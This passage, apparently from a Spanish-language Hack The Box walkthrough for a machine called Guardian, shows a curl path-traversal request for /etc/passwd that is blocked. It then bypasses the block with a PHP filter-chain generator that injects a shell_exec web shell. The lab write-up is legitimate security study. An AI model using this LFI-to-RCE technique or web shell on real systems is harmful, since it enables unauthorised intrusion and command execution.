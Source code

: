 ```php
?>

.............................<RESTO DE CODIGO>.....................................
```

Pero si probamos a intentar explotarlo:

```shell
curl -b "PHPSESSID=<COOKIE>" "http://portal.guardian.htb/admin/reports.php?report=../../../../etc/passwd"
```

Info:

```
<h2>Malicious request blocked 🚫 </h2>
```

Vamos a ver que como vimos en el codigo lo bloquea, por lo que tendremos que intentar `bypassearlo` de esta forma:

## LFI / RFI usando wrappers

Vamos a utilizar directamente `wrappers` de un `LFI` con el siguiente repositorio en el cual te genera un codigo para pegar en la `URL` y asi poder realizar un `RCE`.

URL = [Generate Wrapper LFI (RCE)](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)

```shell
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

Info:

```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```